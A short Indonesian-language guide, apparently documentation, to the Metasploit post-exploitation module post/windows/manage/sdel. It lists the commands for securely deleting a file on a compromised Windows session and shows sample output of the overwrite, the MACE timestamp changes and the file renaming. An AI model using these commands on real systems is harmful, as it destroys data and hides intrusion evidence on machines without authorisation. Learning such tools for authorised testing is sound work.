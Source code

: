# sdel

Modul `sdel` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk menghapus file secara aman (secure delete) dari komputer target.

## Cara Penggunaan di Metasploit

```
use post/windows/manage/sdel
set FILE <PATH_FILE>
set ITERATIONS 1
set SESSION <ID>
set ZERO false
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Size of the file: 37
[*] The file is too small. If it's store in the MTF (NTFS) sdel will not overwrite it!
[*] Cluster Size: 4096
[*] Size on disk: 4096
[*] Iteration 1/1:
[*] 4096 bytes overwritten
[*] Changing MACE attributes
[*] Changing file name
[+] File erased!
[*] Post module execution completed
```

